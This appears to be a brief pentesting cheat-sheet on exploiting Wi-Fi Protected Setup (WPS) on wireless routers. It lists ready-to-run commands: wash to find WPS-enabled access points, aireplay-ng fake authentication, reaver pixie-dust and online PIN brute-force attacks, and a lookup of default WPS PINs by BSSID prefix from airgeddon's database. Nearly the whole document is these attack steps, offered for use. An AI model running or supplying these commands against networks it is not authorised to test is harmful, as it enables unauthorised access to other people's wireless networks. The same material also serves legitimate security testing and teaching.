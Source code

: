 Wi-Fi Protected Setup was originally known as Wi-Fi Simple Configuration, aiming to unify vendor technologies for secure WPA/WPA2 passphrase sharing. However, it has its set of vulnerabilities. Below are the steps to identify and exploit WPS vulnerabilities:

### Identifying access points with WPS enabled
```bash
wash -i <INTERFACE> -s
```
### Fake authentication attack
```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```
### Offline brute force (pixie dust)
```bash
reaver -i wlan0 -b BSSID -SNLAvv  -c 1 -K
```
### Online brute force 
```bash
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
```

## Default pin depending on first three bytes of BSSID
```bash
sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}
```
